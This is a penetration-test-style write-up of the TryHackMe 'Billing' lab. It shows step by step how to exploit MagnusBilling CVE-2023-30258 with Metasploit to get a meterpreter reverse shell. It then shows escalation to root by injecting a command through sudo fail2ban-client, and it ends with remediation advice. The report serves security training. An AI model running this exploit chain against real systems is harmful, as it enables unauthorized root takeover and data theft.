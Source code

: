 # Penetration Test Report  
**Engagement:** TryHackMe - Billing  
**Date:** September 2025   
**Tester:** Colin S    

---

## Summary 
A penetration test was conducted against the TryHackMe Billing environment to assess the security of the deployed MagnusBilling application and underlying system. The assessment identified two high-impact vulnerabilities: An unauthenticated command injection in MagnusBilling permitted remote execution of arbitrary commands and local privilege escalation that enabled full root compromise.

Immediate recommendations are to update the MagnusBilling application to a patched version. User privileges should be reviewed to ensure low-privileged users cannot perform high-privilege actions on the host system.   
 
## Vulnerabilities  

### 1. Unauthenticated command injection
**CVSS v4.0 Base Score:** 8.8 (High)  
CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:L/VA:L/SC:N/SI:N/SA:N  

**CVSS Justification:** While CVSS v4.0 rates this issue at 8.8 (High), the vulnerability is an unauthenticated remote code execution. The related CVE is rated at a 9.8 (Critical) in CVSS v3.1. Although the exploited account is a low-privileged web user, the modelled rating in CVSS v4.0 is reduced. In practice, this risk is critical, and remediation should be prioritised immediately. 

**Summary:** An unauthenticated command injection in MagnusBilling permitted remote execution of arbitrary commands as the web user `asterisk`. This vulnerability can be exploited by attackers to execute arbitrary commands on the target system.  

**Background:** The current version of MagnusBilling in use by the organisation is vulnerable to CVE-2023-30258, which allows attackers to execute unauthenticated command injection attacks. As this is a known vulnerability, multiple exploits exist online. Attackers can use these to quickly gain access to the target. Once access is obtained, commands can be executed to perform a range of harmful actions.      

**Technical details & Evidence:**  The target host was exploited using Metasploit.
```bash
msfconsole
msf > use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258 
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > show options
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOSTS 10.201.117.117
RHOSTS => 10.201.117.117
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST 10.4.12.97
LHOST => 10.4.12.97
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > run
[*] Started reverse TCP handler on 10.4.12.97:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.201.117.117:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.54 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 10.201.117.117
[+] Deleted lXNeTcRvjvlN.php
[*] Meterpreter session 1 opened (10.4.12.97:4444 -> 10.201.117.117:38054) at 2025-09-23 21:08:15 +1000

meterpreter >
```
![Access - metasploit.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Billing/Images/Access%20-%20metasploit.png)  

Once initial access had been gained to the target the logged in user was able to navigate the file system and retrieve secrets.  
```bash
meterpreter > shell
Process 3384 created.
Channel 0 created.

whoami
asterisk
pwd
/var/www/html/mbilling/lib/icepay

cd /home
ls
debian
magnus
ssm-user
cd magnus
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
user.txt
cat user.txt
```
![flag1 - flag.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Billing/Images/Flag1%20-%20flag.png)  

**Impact:** An unauthenticated remote attacker can execute arbitrary commands as the web user `asterisk`. The absence of authentication makes this vulnerability critical, as it enables information disclosure, persistence and local privilege escalation attempts which can significantly impact the organisation's business operations.    

**Remediation Advice:** It is strongly recommended to update MagnusBilling to the vendor-fixed release or apply the official patch immediately and block access to the vulnerable endpoint until updated. Rotate any credentials that could have been exposed and monitor web logs for exploitation indicators.  

---

### 2. Local privilege escalation
**CVSS v4.0 Base Score:** 9.3 (Critical)  
CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:H/VA:N/SC:H/SI:H/SA:N  

**CVSS Justification:** This vulnerability allows a low-privileged user to execute arbitrary commands as root, resulting in full system compromise. While CVSS v4.0 models this with a 9.3 (Critical) score, the practical impact is complete host takeover and remediation should be treated as an urgent priority.  

**Summary:** It was discovered that a low privilege user was permitted to execute the `fail2ban-client` with sudo and NOPASSWD. Privilege misconfigurations such as this allow attackers to run arbitrary commands as root, this enables full system compromise and access to sensitive data.  

**Background:** fail2ban exposes a management client `fail2ban-client` that can change jail actions at runtime. Jail actions are the processes triggered when fail2ban attempts to block an identified IP with multiple authentication errors. If a low-privileged user can execute this client via sudo as root, arbitrary shell commands can be injected into the jails, which can then be executed when actions are taken on the system to trigger fail2ban block actions. Attackers can use different techniques to execute actions as root, or escalate their privileges directly to the root user. 

**Technical details & Evidence:** Recon was undertaken on the target system and the logged in user to determine current privileges.  
```bash
sudo -l
Matching Defaults entries for asterisk on ip-10-201-117-117:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-201-117-117:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

On the discovery that the logged in user was able to execute the `fail2ban-client` with sudo and NOPASSWD. Multiple proof of concept examples exist on methods to exploit this misconfiguration. The chosen method is detailed in the Fail2ban Exploit in the appendices.  

Below are the commands used to perform the exploit along with a brief explanation of each line’s actions.  

This first command restarts and refreshes the service.  
```bash
sudo /usr/bin/fail2ban-client restart
```
The next command overwrites the action taken when banning an IP and replaces it with a command that copies `/root/root.txt` to `/tmp/root.txt` and then adjusts the permissions with `chmod` 
```bash
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt'"
```
The final command bans an IP address which then triggers the item we inserted above.  
```bash
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
```

When put into practice the below is the command flow used to move the `root.txt` file on the target system.  
```bash
sudo /usr/bin/fail2ban-client restart
Shutdown successful
2025-09-23 02:48:31,943 fail2ban.configreader   [2568]: WARNING 'allowipv6' not defined in 'Definition'. Using default one: 'auto'
Server ready
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt'"
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
1
```
![Flag2 - commands.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Billing/Images/Flag2%20-%20commands.png)  

Once complete it can be verified that the `root.txt` file has been moved and is accessible to the logged in low-privilege user.  
```bash
cd /tmp
ls
root.txt
cat root.txt
```   
![Flag2 - flag.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Billing/Images/Flag2%20-%20flag.png)  

**Impact:** A low-privilege account that can run `fail2ban-client` with sudo can escalate to full root access, allowing complete compromise of the host. This may result in full system takeover, data exfiltration, and disruption of services.  

**Remediation Advice:** Remove `/usr/bin/fail2ban-client` from NOPASSWD sudo rules. Restrict sudo to only necessary commands for the user. Ensure Fail2Ban configuration and action scripts are owned by root and not writable by unprivileged users. Conduct regular audits of sudo permissions.  

---
## Appendices  
[CVSS 4.0](https://www.first.org/cvss/calculator/4-0)  
[CVE-2023-30258](https://nvd.nist.gov/vuln/detail/CVE-2023-30258)  
[CVE-2023-30258 Exploit](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/)  
[Fail2ban Exploit](https://packetstorm.news/files/189989)
